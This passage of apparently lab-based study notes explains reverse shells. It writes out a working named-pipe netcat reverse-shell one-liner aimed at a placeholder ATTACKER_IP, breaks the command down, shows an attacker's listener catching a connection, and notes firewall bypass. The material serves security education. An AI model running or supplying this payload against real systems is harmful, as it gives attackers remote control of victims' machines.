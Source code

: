 Example **Pipe Reverse Shell Payload**:
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```
### Step-by-Step Explanation:
| Command Part                               | Meaning                                                                 |
|--------------------------------------------|-------------------------------------------------------------------------|
| `rm -f /tmp/f`                             | Remove any old pipe file named **f** in `/tmp/`.                        |
| `mkfifo /tmp/f`                            | Create a new **named pipe** at `/tmp/f` for communication.              |
| `cat /tmp/f`                               | Read input data from the pipe.                                          |
| `| sh -i 2>&1`                             | Send input into an interactive shell, redirecting errors to output.     |
| `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`   | Send shell output to attacker’s Netcat listener over network.           |
| `>/tmp/f`                                  | Write attacker’s commands back into the pipe (2-way communication).     |



# 📡 Example: Attacker Receives Reverse Shell

Attacker’s terminal shows:
```
attacker@kali:$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
target@tryhackme:$
```
✔ This means:  
- Victim machine (10.10.13.37) connected back.  
- Attacker now has shell access to victim system.  
- Attacker can run commands as if logged in locally.  



# 📊 Comparison: Reverse Shell vs Normal Connection

| Feature                  | Normal Connection                        | Reverse Shell (Hacking)                     |
|---------------------------|------------------------------------------|---------------------------------------------|
| **Who starts it?**        | User connects to server (e.g., browsing)| Victim connects to attacker (reversed).     |
| **Firewall visibility**   | Incoming request is checked              | Outgoing request (harder to detect).        |
| **Purpose**               | Normal usage (web, apps)                 | Unauthorized access for attacker.           |



# ⚡ Key Points
- Reverse Shell = Victim connects back to attacker.  
- Helps attacker bypass firewalls.  
- Needs **listener on attacker** and **payload on victim**.  
- Once connected → Attacker can fully control victim system.
---
# 🔗 Bind Shell

